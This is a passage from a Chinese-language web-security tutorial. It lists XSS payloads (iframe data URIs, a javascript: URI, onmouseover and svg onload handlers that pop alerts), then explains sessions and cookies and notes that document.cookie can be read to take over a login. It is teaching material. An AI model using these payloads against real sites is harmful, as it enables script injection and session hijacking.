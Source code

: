 
```
<iframesrc="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

##### XSS利用方式3

```
<iframesrc="aaa"onmouseover=alert('xss')/><iframe>
```

##### XSS利用方式3

```
<iframesrc="javascript:prompt(`xss`)"></iframe>
```

#### `svg<>`标签

```
<svgonload=alert(1)>﻿
```

## 二、session与cookie

### session

由于HTTP协议是无状态的协议，所以服务端需要记录用户的状态时，就需要用某种机制来识具体的用户，这个机制就是 Session

典型的场景比如购物车，当你点击下单按钮时，由于HTTP协议无状态，所以并不知道是哪个用户操作的，所以服务端要为特定的用户创建了特定的 Session，用用于标识这个用户，并且跟踪用户，这样才知道购物车里面有几本书。

这个 Session是保存在服务端的，有一个唯一标识。在服务端保存 Session的方法很多，内存、数据库、文件都有。集群的时候也要考虑 Session的转移，在大型的网站一般会有专门的 Session服务器集群，用来保存用户会话，这个时候 Session信息都是放在内存的，使用一些缓存服务比如 Memcached之类的来放 Session。

### cookie

思考一下服务端如何识别特定的客户？这个时候 Cookie就登场了。

每次HTTP请求的时候，客户端都会发送相应的Cookie信息到服务端。实际上大多数的应用都是用 Cookie来实现 Session跟踪的，第一次创建 Session的时候，服务端会在HTTP协议中告诉客户端，需要在Cookie里面记录个SessionID，以后每次请求把这个会话ID发送到服务器，我就知道你是谁了。

设想你某次登陆过一个网站，只需要登录一次就可以在一定时间内浏览这个网站的所有内容，这是如何做到的？也是 Cookie

Cookie是指某些网站为了辨别用户身份而储存在客户端上的数据（通常经过加密）。也就是说，只要有了某个用户的 cookie，就能以他的身份登录

获取cookie：

浏览器(客户端)：document.cookie

服务器端(php)：$_COOKIE

举例

![image-20210919174759488](picture/1632124717_61483f2d2144eab7b9c70.jpeg)